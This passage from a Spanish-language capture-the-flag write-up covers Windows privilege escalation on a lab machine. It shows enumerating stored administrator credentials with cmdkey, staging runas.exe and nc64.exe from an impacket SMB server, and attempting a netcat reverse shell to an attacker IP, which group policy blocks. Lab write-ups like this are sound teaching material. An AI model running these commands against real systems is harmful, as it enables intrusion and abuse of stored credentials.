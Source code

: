 ## Escalada de Privilegios

### Revisión de permisos y/o privilegios
Realizando enumeración manual, se vio primero los privilegios que tenemos, por mala suerte no se pudo obtener nada.
Otra cosa que hago al enumerar manualmente es ver las sesiones activas, esto con comandos como:
~~~powershell
C:\Windows\System32>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
~~~
Como se puede ver, se tiene el usuario administrator como credenciales almacenadas dentro la sesion, por lo que esto se puede vulnerar con herramientas como "runas" o "mimikatz", para ello primero necesito pasarme la herramienta a mi servicio, adicionalmente para enviar una reverse shell, tambien enviare el "nc64.exe".
Primero abriendo un servicio smb en mi maquina atacante.
~~~bash
impacket-smbserver smb $(pwd) -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.98,49157)
[*] AUTHENTICATE_MESSAGE (ACCESS\security,ACCESS)
~~~
Ahora pasando los ejecutables a la maquina comprometida.
~~~bash
C:\temp>copy \\10.10.14.5\smb\runas.exe runas.exe
        1 file(s) copied.
        
C:\temp>copy \\10.10.14.5\smb\nc64.exe nc64.exe
        1 file(s) copied.

C:\temp>dir
 Volume in drive C has no label.
 Volume Serial Number is 8164-DB5F

 Directory of C:\temp

10/31/2025  03:01 AM    <DIR>          .
10/31/2025  03:01 AM    <DIR>          ..
08/21/2018  10:25 PM    <DIR>          logs
05/14/2025  06:44 PM            45,272 nc64.exe
08/21/2018  10:25 PM    <DIR>   98,234 runas.exe
08/21/2018  10:25 PM    <DIR>          scripts
08/21/2018  10:25 PM    <DIR>          sqlsource
               1 File(s)         45,272 bytes
               5 Dir(s)   3,349,958,656 bytes free
~~~
Al intentar ejecutar algo, puedo ver que esto no es permitido.
~~~bash
C:\Users\security\Desktop>C:\temp\nc64.exe -e cmd 10.10.14.5 4433
This program is blocked by group policy. For more information, contact your system administrator.
~~~
Por lo que seria imposible ejecutar runas para obtener acceso como administrador.
Esto puede ser porque somo un usuario con bajos privilegios, por lo tanto podria ser que un usuario administrator si tenga permisos para ejecutar otros binarios.